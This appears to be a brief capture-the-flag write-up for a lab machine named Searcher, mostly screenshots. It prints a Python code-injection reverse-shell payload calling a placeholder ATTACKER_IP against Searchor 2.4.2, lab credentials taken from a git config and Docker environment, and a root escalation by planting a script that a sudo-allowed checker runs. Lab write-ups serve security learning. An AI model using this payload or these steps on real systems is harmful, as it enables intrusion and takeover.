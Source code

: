 ![file:///tmp/.ZBR081/1.png](file:///tmp/.ZBR081/1.png)

exploit:

[https://github.com/jonnyzar/POC-Searchor-2.4.2](https://github.com/jonnyzar/POC-Searchor-2.4.2)

payload:

', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

![file:///tmp/.ZBR081/2.png](file:///tmp/.ZBR081/2.png)

![file:///tmp/.ZBR081/3.png](file:///tmp/.ZBR081/3.png)

![file:///tmp/.ZBR081/4.png](file:///tmp/.ZBR081/4.png)

do ls -al

go to .git/ and read the config

[http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git](http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git)

![file:///tmp/.ZBR081/5.png](file:///tmp/.ZBR081/5.png)

![file:///tmp/.ZBR081/6.png](file:///tmp/.ZBR081/6.png)

sudo /usr/bin/python3 /opt/scripts/system-checkup.py

[Documentation](https://docs.docker.com/engine/reference/commandline/inspect/)

## : "

_Return low-level information on Docker objects_

## ".

sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' f84a6b33fb5a

"Hostname":"f84a6b33fb5a"

MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF

MYSQL_USER=gitea

MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh

MYSQL_DATABASE=gitea

![file:///tmp/.ZBR081/7.png](file:///tmp/.ZBR081/7.png)

![file:///tmp/.ZBR081/8.png](file:///tmp/.ZBR081/8.png)

![file:///tmp/.ZBR081/9.png](file:///tmp/.ZBR081/9.png)

one of the password worked for admin it was: yuiu1hoiu4i5ho1uh

![file:///tmp/.ZBR081/10.png](file:///tmp/.ZBR081/10.png)

now in the system-checkup file:

![file:///tmp/.ZBR081/11.png](file:///tmp/.ZBR081/11.png) this code blindly runs the full-checkup.sh file in it's dir and we can thus create our own this file and run this code as root